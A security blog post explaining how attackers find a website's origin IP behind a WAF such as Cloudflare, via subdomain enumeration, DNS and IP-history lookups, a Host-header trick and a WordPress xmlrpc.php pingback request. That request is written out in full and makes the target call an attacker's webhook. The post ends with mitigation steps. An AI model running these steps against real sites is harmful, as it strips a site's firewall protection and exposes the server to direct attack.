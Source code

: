 ```yaml
---
title: Firewall Bypassing - Databased Index
permalink: /waf-bypassing
---
```


<link rel="stylesheet" type="text/css" href="css/styles.css">
<link rel="stylesheet" type="text/css" href="css/font.css">
<link rel="stylesheet" type="text/css" href="css/posts.css">
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1" />
<meta name="description" content="In this post, I'll explain what a firewall/WAF is, and how it can be bypassed by a threat actor.">
<meta property="og:title" content="CWE-200 | Firewall Bypassing">
<meta property="og:type" content="website">
<meta property="og:url" content="https://databased-index.github.io/waf-bypassing">
<meta property="og:image" content="https://databased-index.github.io/images/cabbit.jpg">
<meta property="og:description" content="In this post, I'll explain what a firewall/WAF is, and how it can be bypassed by a threat actor.">

#### <ins>Vuln Type: Information Disclosure (CWE-200)</ins>

### What is a firewall?
Firewalls, or WAFs ___(Web Application Firewall)___, are filters and rules of access that serve as a sort of "gateway" to keep your website secure. Basically keeping your website safe from threats and potential vulnerabilities that could be easily exploited if you otherwise didn't have a WAF. 

The most commonly used WAF is Cloudflare, for being easy to setup and maintain. But Cloudflare isn't all that secure as people may think and your common _"top 10 best firewalls to keep your website secure"_ may suggest.

Since it is one of the easiests WAFs to setup, it is also one of the easiests WAFs to bypass if you don't know how to setup your website correctly or you just don't have full access to the things you are managing on your website, which, in most cases, can paint a bright red target on your website's back.

### What are you looking for when bypassing a firewall?

A subdomain that's not being tunnelled through the WAF or the ___origin IP___ of the website, aka: the IP behind the firewall.

The firewall itself might have its own IP, which is the case for Cloudflare. The firewall's IP is not directly accessible.

### What can a bypass leave you vulnerable to?
It depends on how much information an attacker has on your website, if they already have found a potential vulnerability and the depth of understanding they may have on your website

This can vary from a simple XSS to a full blown Remote Code Execution vulnerability.

But anyway, you're probably not here to read my personal comments on firewalls and how they can give you a false sense of security at times.

Usually the only thing stopping an attacker from gaining complete access to your website is the firewall, which if not setup correctly, can be just a glass door waiting for a brick to be thrown through it.

So,
### How to bypass WAFs?

There are multiple ways to do that, and all of them are pretty easy, given the right conditions (which are usually the case).

#### <ins>Subdomain Method</ins>

This is the easiest one since it doesn't even involve interacting directly with the target, but instead just enumerating all of the target's subdomains, along with their IP addresses. In most cases, the website will just have an unprotected IP that can be accessed directly with no real issue

|Resources|Status|Price|
|---------|------|-----|
|[subdomainfinder.c99.nl](https://subdomainfinder.c99.nl/)|✅UP|Free|
|[dnsdumpster.com](https://dnsdumpster.com/)|✅UP|Free|
|[shodan.io](https://shodan.io/)|✅UP|Free / Paid for more advanced scans|
|[search.censys.io](https://search.censys.io/)|✅UP|Free / Paid for more advanced scans|
|[fofa.info](https://en.fofa.info)|✅UP|Free / Paid for more advanced scans|
|[Anubis (tool)](https://github.com/jonluca/Anubis)|✅UP|Free|

In some cases the server will be setup in such a way that even if the unprotected IP is accessed directly, it will still show different results from the target. In such occasions, it ___might___ mean that the IP is being shared with other hosts.
In case of the IP being shared, the discrepancy in results can be easily circumvented by setting your Host request headers as the website's URL and not the IP itself.

FOR THE SITUATION DESCRIBED ABOVE, instead of doing:
```
POST /  HTTP 1.1
Host: <Target Unprotected IP>
```

Do

```
POST /  HTTP 1.1
Host: <Target URL(Without HTTPS)>
```

That way the IP can still be accessed directly if you search it up in your searchbar, but the server will be receiving requests for the protected URL instead, thus not only rendering the website's content but also verifying that the IP in fact belongs to that URL.

___PS: The IP you search up in the searchbar has to be linked to the URL you set in the "Host" header for the contents to load, since that's how the server distinguishes what website is being requested from the shared IP___

#### <ins>DNS Record Method</ins>
When looking for IPs and unprotected subdomains, it's also important to look for IPs or domains listed mainly in **MX** and **TXT** records.

|Resources|Status|Price|
|---------|------|-----|
|[dnsdumpster.com](https://dnsdumpster.com/)|✅UP|Free|
|[dig](https://command-not-found.com/dig)|COMMAND|Free|

#### <ins>IP History Method</ins>
This method is also pretty easy. You can just get a list of the IPs that were used by the website along time. 

|Resources|Status|Price|
|---------|------|-----|
|[viewdns.info](https://viewdns.info/)|✅UP|Free|


#### <ins>Forensics Search Method</ins>
This basically involves searching up the domain on the following websites.  

|Resources|Status|Price|
|---------|------|-----|
|[shodan.io](https://shodan.io/)|✅UP|Free / Paid for more advanced scans|
|[search.censys.io](https://search.censys.io/)|✅UP|Free / Paid for more advanced scans|
|[fofa.info](https://en.fofa.info)|✅UP|Free / Paid for more advanced scans|

#### <ins>XMLRPC.php Method (Wordpress exclusive)</ins>
If the target uses Wordpress, it is also very likely to have XMLRPC enabled. (In some cases it doesn't tho, so that's when the rest of the things earlier apply).

To bypass a WAF protecting a wordpress domain, the following method is followed:

```
POST /xmlrpc.php HTTP/1.1
Host: TARGET_URL
Content-Type: text/xml; charset=UTF-8

<?xml version="1.0" encoding="iso-8859-1"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
 <param>
  <value>
   <string>WEBHOOK_UNIQUE_URL</string>
  </value>
 </param>
 <param>
  <value>
   <string>VALID_POST_FROM_TARGET</string>
  </value>
 </param>
</params>
</methodCall>
```

This is an old one but incredibly still effective!

What the attacker does is basically:

> Replace the ```TARGET_URL``` with the url of the website.

> Replace ```WEBHOOK_UNIQUE_URL``` with a webhook that will be used to catch the pingback response

> Replace ```VALID_POST_FROM_TARGET``` with a post that's been made on the website

> I.E: https://example.com/2025/03/10/is-a-nuclear-powered-marine-sector-a-possibility/

|Resources|Status|Price|
|---------|------|-----|
|[webhook.site](https://webhook.site/)|✅UP|Free|

#### <ins>Fingerprinting WAFs</ins>
Fingerprinting a WAF can be done in some ways, but the main ones are by using automation tools or manually.

Doing it manually requires you to analyze the behavior of the website to certain actions you take in it, such as trying to XSS an input field or uploading a malicious file. Also analyzing response headers and cookies for clues. 

Cloudflare can be easily spotted because of the custom 'cf-*' headers it sets.

Automation tools:

|Resources|Status|Price|
|---------|------|-----|
|[SuIP.biz](https://suip.biz/)|✅UP|Free|
|[Wappalyzer](https://www.wappalyzer.com/)|✅UP (Add-On)|Free|
|[Wafw00f](https://github.com/EnableSecurity/wafw00f)|✅UP|Free|
|[Nikto](https://github.com/sullo/nikto)|✅UP|Free|

#### <ins>Mitigating Attacks</ins>
To avoid getting your website's origin IP leaked, here are some steps you could take:

- Make sure to tunnel all subdomains through your WAF.
- Do not set your website's IP as an MX IP, instead use other mailing services as MX records cannot be proxied.
- Make sure that if/when the Origin IP leaks, your code is secure enough to handle input tampering.
- Setup your server in a way that forbids a client to connect directly to the IP, hitting the client with either a 403 status or a redirect to the main page.
- Check if the 'Host' header and the requested base URL match.
- Set the backend to only accept requests from the main website. This can be done via CORS.

### <ins>Read More</ins>
[A guide to non-conventional WAF/IDS evasion techniques - By MLT](https://0x80dotblog.wordpress.com/2021/07/24/a-guide-to-non-conventional-waf-ids-evasion-techniques/)
